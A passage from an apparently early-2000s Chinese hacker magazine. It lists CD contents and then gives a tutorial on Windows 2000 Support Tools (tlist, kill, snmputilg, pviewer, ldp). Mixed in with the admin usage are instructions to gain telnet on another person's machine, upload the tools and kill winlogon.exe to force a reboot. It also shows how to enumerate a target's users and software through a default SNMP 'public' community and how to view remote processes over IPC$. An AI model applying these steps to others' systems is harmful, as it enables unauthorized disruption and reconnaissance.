- 我要破解文集：内容涉及到计算机及其网络应用破解的各方面，还包括一些破解软件的使用。
- ASP 教程及中文手册：讲解了 ASP 网页设计制作技术最基本的一些功能、应用。
- Flash 全真教程及 MX2004 菜鸟教程：一步步语音教你动画的实例制作。

### 动感时光

#### 动感时光之搞笑篇

- 暴笑之流氓企鹅：做绝了，就使出了绝招。
- 黄粱美梦：有时候需要做梦，可美梦成真毕竟是一个愿望。
- 桌面上的战争：你知道你的桌面上现在开始战争了吗？
- 我叫 BUSH：我们反对盛气凌人、以强欺弱。
- 热点无责任新闻追踪：笑一笑那些可笑的人，容一容那些可容的事吧！

#### 动感时光之抒情怀人篇

- 蛋糕核桃烧：蛋糕核桃烧系列爱情故事动画。
- 黑馒头之《棒棒糖》：你还记得小时候吃过棒棒糖吗？
- 天使之梦：并不是每个人都那么幸福，可是，请相信这个世界上有天使的存在。

#### 动感时光之战神打斗篇

- 超精彩 Flash 战神
- 打斗经典

#### 动感时光之趣味游戏篇

- 几分钟内把门打开：共 13 个东东要找出来。
- 星际猪霸：让你感受一下宇宙间漫游的惊险。

### 影像详情

- MTV：Brown、Hey Girl、爱你、蛋白质女孩等。
- 技巧与特技：柯受良飞车纪念特辑及他们几大名角主演的 MTV、这哥们玩枪绝了。
- 那些岁月：阿桑《叶子》之 MV（超感人）、当我再爱你的时候。
- 笑翻天：夸张到极点的禁烟广告、男人为了啥而变跛？汽车足球赛、我小、你也不能要我。

### X特辑看版

- 脑筋急转弯 2004 五一特别版：有没有碰到过别人出脑筋急转弯，其他人都知道，就你怎么也想不出呢？
- CS 之赏金猎手：是以全球几千万玩家热衷的网络电子竞技游戏“反恐精英”为背景的长篇小说。
- 骇世黑客：本书出台的初衷是大量事例向读者呈现一幅黑客全影画像。
- QQ 博爱经典表情：让我们的 QQ 聊天变得更加丰富多彩。
- 歌词串串烧：一款功能完善的歌词管理软件，基于 ACCESS 数据库开发。
- 2004 感人的故事。
- 世界五千年幽默大全之外国卷：内容包括名人篇、政治篇、司法篇、交往篇、婚姻篇等。
- 10 本中国古典名著。
- 梦里花落知多少：的确是一本很值得一看的书，你会发现你完全被吸引上了。最羡慕的就是像林岚和闻婧一样洒脱的 GIRLS 哦……

## 你最喜欢的文章

> 本栏目的所有文章是 X 编辑部根据“读者回执卡”，评选出来的最受读者欢迎的文章，特独立成栏目推荐给大家。

## 不要忽视 Win2k 带给我们的“黑客工具”

python

当我们还在网上因搜寻工具而浪费时间时，是否注意过系统自带的一些小工具呢？本文想带给大家的思路正是——不要忽视身边的有效资源。

Win2k 的小工具中有我们常见的 ping（一个用于检测网络连通状况的命令）、ipconfig（一个用于检查自己网络配置的命令）等等。这些大家都应该耳熟能详了才是。

这里我要讲的好东东呢，学名叫“Windows 2000 support tools”，这是一个需要安装才能使用的工具包，里面有好多实用的小工具。

### 一、安装

首先，打开 Win2k 光盘，在 Win2k 的目录下进入 \support\tools 目录，里面有安装文件 2000RKST.MSI 和 SETUP.EXE 两个文件，随便双击哪个都可以进行安装，这个工具包也是全英文的。安装完成后，大家转到 Win2k 的根目录下，跟着我做：依次打开 Program Files\Support Tools，发现了什么？好多东东哦！

### 二、典型逐个抓

由于工具太多了，所以在这里我们就对几个比较“黑客”的工具进行讲解。

首先说说 tlist 和 kill，这两个工具的使用已经在《X 档案》2002 总第七期的“完全手工查杀进程”一文中给大家展示过了。在这篇文章中，只使用了这两个工具最基本的功能。这里，我将对这两个工具的一些参数进行讲解。



#### 1、tlist

打开 CMD 命令提示符，键入如下命令：

**tlist**

列出系统的所有进程以及该进程对应的 pid（pid，进程标识符）。

**tlist -t**

以进程树的模式列出进程及其子进程，如图 1 所示，这样做的好处在于，大家可以清楚地看到每个进程是属于哪一个进程的子进程。

> LOOK 注意：例如：大家从图 1 中可以看出，csrss.exe 为 smss.exe 的一个子进程，如果我们结束 smss.exe（实际上，由于 smss.exe 为系统关键进程，是无法结束的，这里只是比喻说明）进程树（注意，不是“进程”，而是“进程树”）的话，那么它下边的这些子进程也将随之结束。

关于如何结束“进程树”，最简单的办法就是使用 Win2k 的任务管理器了，如图 2 所示。



**tlist -p 进程名**

根据指定的进程名，列出该进程的 pid。

#### 2、kill

这个工具的参数不多，主要使用方法就是 kill pid，这样可以杀掉指定的进程。

另外一个，就是带参数的，参数为“-f”，在教大家使用之前，跟大家说一句，用这个参数前一定要想清楚哦。至于为什么，往后看。

格式：kill -f pid  
意思就是强制杀掉指定的进程。

知道这代表什么吗？这就是说，在任务管理器中，那些我们无法结束的系统关键进程，使用这个命令就可以杀掉。

如图 3 所示，大家可以看到，在任务管理器中，我们无法结束“snmp.exe”这个进程。这时候，我们到 CMD 命令提示符下，先使用命令 tlist -p snmp，获得这个进程的 pid 为 1016（也可以从任务管理器中看到），然后再使用命令 kill -f 1016，就会返回信息：process snmp.exe (1016) -- '' killed，这时候再查看任务管理器，会发现刚才那个无法结束的 snmp.exe 进程已经不在了。



> **LOOK 注意** 如果大家一下失手，杀掉了系统关键的进程，可能会导致系统运行不正常，那么解决办法是重新启动，必须重新启动，注销是解决不了问题的。

### ◆ 必杀技

使用 tlist 和 kill 命令可以使对方重新启动计算机——强烈推荐哦，这可是我自己的新发现，不过不要在自己机器上乱用，我试过了，很惨！

首先要获得对方的 telnet，怎么搞到我就不管了，然后上传这两个工具到对方的 system32 文件夹下，先用命令：  
`tlist -p winlogon.exe`（查询 winlogon.exe 的 pid 值）

然后使用命令：  
`kill -f pid`（杀掉 winlogon.exe 这个进程）

如果你是在本机上实验的话，你会听见硬盘一声惨叫，然后重新启动——好心疼。

### ◆ 经验与警告

Win2k svr 在默认情况下安装了很多服务，但是有可能通过手动修改来关闭这些服务，然而有些时候如果我们不能通过 3389 的 Terminal Service 进行登录的话，又很难重新启动这些服务，所以重新启动计算机便成了最好的选择。重新启动计算机后，很多服务会重新随着计算机的启动而启动，重启的好处便在此了！

> **LOOK 注意** 不过……你在重启对方服务器前要先祈祷对方的管理员没有站在服务器前才好。

### 3、snmputilg.exe

如果大家手头有 Win2k 的 Resource Kit 的话，会发现这个工具箱里有一个工具名字叫：snmputil.exe，这是一个命令行模式的工具，如图 4 所示。



而这里的 snmputilg.exe 与 snmputil.exe 功能是一样的，只是这里改成了用户图形界面而已，看上去更舒服了一些。





从开始菜单中打开 snmputilg.exe，如图 5 所示。  
也许大家还不知道 snmputilg.exe 这东西是做什么的吧？  
大家扫描的时候经常会碰到 snmp 信息，并且扫描到 snmp 的密码为 public，如图 6 所示，然而很多朋友不知道怎么用，其实只要用这个软件，就可以通过对方的 snmp 服务探测到很多的信息。

> **LOOK 注意**  
> snmp 属于一个管理工具，默认情况下是不安装的，大家可以自己到“添加/删除程序”中安装 Windows 组件——管理和监视工具，如图 7 所示。



snmputilg.exe 要求填写的有 “node”、“community”、“current oid”。  
“node” 填写对方的 IP 地址就可以了；“community” 则是你扫到的 public，是一个查询密码。

最麻烦的地方就在 “current oid”。物件识别代码（Object Identifier=oid），这一串数字是指某个设备。在结合了下面的 “SNMP Function to Execute” 便可以查到一些设备的信息。这相当于使用一个方法来对一个设备进行查询，关于 oid 填写什么则需要一些关于 snmp 的专业知识，希望大家能自己找些资料来看，这里先给大家提供一些 oid 以及对应的查询方法（查询方法可以在 SNMP Function to Execute 中选择）：

- walk .1.3.6.1.2.1.25.4.2.1.2 列出系统进程
- walk .1.3.6.1.4.1.77.1.2.25.1.1 列出系统用户列表
- get .1.3.6.1.4.1.77.1.4.1.0 列出域名
- walk .1.3.6.1.2.1.25.6.3.1.2 列出安装的软件
- walk .1.3.6.1.2.1.1 列出系统信息

> **LOOK 注意**  
> 以上的 walk 和 get 均为方法，后边的类似 .1.3.6.1.2.1.1 这样的东西为 oid。



不过说实话这玩意不很好用，我在使用的时候经常报告 API 错误，做了 n 次实验总算是查到了点东西，如图 8 所示。虽然不是很好用，但是如果成功地查到好东西的话，会给人带来很大方便。

#### 4、pviewer.exe

全名为 process viewer.exe，如图 9 所示。是一个查看进程，以及进程相关状况的工具，如果在本地机使用的话，可以查杀本地机上的进程。

该工具也可以连接远程机，方法很简单：获得远程机管理员密码后，建立 IPC$ 连接（这个就不用我教了吧），然后在 pviewer 的 computer 输入栏里按格式“\ip”填入对方 IP 地址，这样就可以查看对方所有的进程了。但很可惜，不能杀掉远程机的进程，因为大家可以注意到，连接远程机后，pviewer 的 “kill process” 按钮呈灰色不可用状态，如图 10 所示。





但是，通过这个工具也可以获得相当多的有用信息。例如，通过 pviewer 工具，我就可以看到，现在我连接的这台主机上运行了杀毒软件 KV 3000（进程 KAV9X）。

> **LOOK 注意**  
> 我每次运行 pviewer.exe 的时候，系统资源使用率都会一下子变得非常高，而且机器运行速度很慢，所以大家要忍耐忍耐再忍耐！

#### 5、Active Directory Administration Tool（ldp.exe）

这个工具嘛，主要用于连接 DC（Domain Controller，域控制器）上的 AD（Active Directory，活动目录）。如果大家对这两个名词还不是很清楚的话，希望你们找本书来恶补一下了。

使用方法非常简单，依次点 “Connection” → “Connect”，这时候就会出现一个对话框，如图 11 所示，在 “server” 中填上 IP 或是机器名，端口只要使用默认的 389 端口就可以了，然后点 OK。连接上后，就可以进行管理了（由于 AD 的管理比较麻烦，限于篇幅，就不多说了）。

